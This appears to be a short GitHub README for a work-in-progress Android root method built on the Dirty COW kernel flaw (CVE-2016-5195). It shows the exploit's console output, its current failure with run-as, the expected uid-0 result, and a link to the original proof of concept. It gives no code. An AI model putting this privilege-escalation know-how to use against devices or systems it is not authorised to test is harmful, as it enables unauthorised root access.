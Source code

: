 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
    
Current Issue: run-as not working as expected    
Output:    
[*] mmap 0xf7158000    
[*] exploit (patch)    
[*] currently 0xf7158000=464c457f    
[*] madvise = 0xf7158000 14280    
[*] madvise = 0 1048576    
[*] /proc/self/mem -1048576 1048576    
[*] exploited 0xf7158000=464c457f    
adb shell /system/bin/run-as    
run-as: Usage:    
    run-as &lt;package-name&gt; [--user &lt;uid&gt;] &lt;command&gt; [&lt;args&gt;]    
    
Expected Output:    
[*] mmap 0xf7158000    
[*] exploit (patch)    
[*] currently 0xf7158000=464c457f    
[*] madvise = 0xf7158000 14280    
[*] madvise = 0 1048576    
[*] /proc/self/mem -1048576 1048576    
[*] exploited 0xf7158000=464c457f    
adb shell /system/bin/run-as    
running as uid 2000    
uid 0    
    
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
